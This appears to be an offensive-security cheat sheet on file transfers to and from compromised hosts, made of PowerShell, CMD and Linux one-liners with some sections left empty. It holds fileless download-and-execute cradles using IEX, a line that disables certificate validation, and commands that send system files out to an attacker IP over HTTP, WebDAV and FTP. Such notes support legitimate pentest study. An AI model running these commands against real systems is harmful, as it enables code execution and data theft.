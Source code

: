 # File Transfers
## References and Links
[Harmj0y Powershell download cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

## Linux File Transfers
## Windows File Transfers
### PowerShell Base64 Encode/Decode
```powershell
#Base64 Encode
[Convert]::ToBase64String((Get-Content -path "File_to_Encode" -Encoding byte))
#Base64 Decode
[IO.File]::WriteAllBytes("Output_File", [Convert]::FromBase64String("Base64_Encoded_Payload"))
```
### PowerShell Web Downloads
1. Files vs. Fileless  
a. Files = Download and save the file  
b. Fileless = Download and execute without saving the file 
```powershell
# File Download Example
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

# Fileless Download Example
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
# We can also pipe the input directly into IEX
(New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
``` 
Powershell v3.0 and later can use Invoke-WebRequest(by default is aliased to ```iwr```,```curl```, and ```wget```)
```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output_File_Name>
```
<ins>**Common Errors with Powershell**</ins>  
Internet Explorer first-launch configuration not being completed will prevent downloads. To bypass, use ```-UseBasicParsing```
```Powershell
Invoke-WebRequest <Target file URL> -UseBasicParsing | IEX
```
SSL/TLS secure channel throws an error if the certificate is not trusted.  
Bypass:
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
### SMB Downloads
Create a quick SMB server in Linux
```bash
# Simple Share
sudo impacket-smbserver share -smb2support /tmp/smbshare

# Share with Authenticated Access
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

CMD Copy a file from an SMB Server
```cmd
copy \\10.10.10.10\share\file
# This command will be blocked in modern OS's that don't allow unauthenticated guest access
```
CMD Map File share to drive letter with authentication
```cmd
net use n: \\10.10.10.10\share /user:username password
```
### FTP Downloads
FTP Setup on linux attack host
```bash
# Install 
sudo apt install python3-pyftpdlib
# Specify the port, by default pyftpdlib uses port 2121
sudo python3 -m pyftpdlib --port 21
```

Download via FTP using Powershell
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://10.10.10.10/file.txt', '<Output_File_Name>')
```

Create a batch file to download our file (useful if we don't have an interactive shell)
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
### PowerShell Web Uploads
PowerShell doesn't have built-in upload functionality, so we'll have to build it or download it.

Linux Upload Server
```bash
# Install
pip3 install uploadserver

# Usage
python3 -m uploadserver
```

PowerShell Script to Upload a file
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
import-module ./PSUpload.ps1
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File <File_to_upload>
```
Powershell Base64 WebUpload
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
# Convert file to base64 and enter into variable $b64
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
# Send a web request with the base64 variable in the body
# catch the string with netcat on the other end, and base64 decode the body, giving you the original file
```
### SMB Uploads
Installing WebDav Server
```bash
# apt
sudo apt install python3-wsgidav
# pip
sudo pip3 install wsgidav cheroot
```
Starting the webdav python module
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
Connecting to the WebDav share from Windows
```cmd
dir \\10.10.10.10\DavWWWRoot
# DavWWWRoot is not the name of a share. It's a special keyword fro the mini-redirector driver to connect to a webdav share
```
Uploading files using SMB WebDAV
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
### FTP Uploads
```powershell
(New-Object Net.WebClient).UploadFile('ftp://10.10.10.10/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
Create a command file for the client to upload a file (useful in limited shells)
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
## Transferring with Code
## Misc File Transfer Methods
## Catching files over HTTP/S
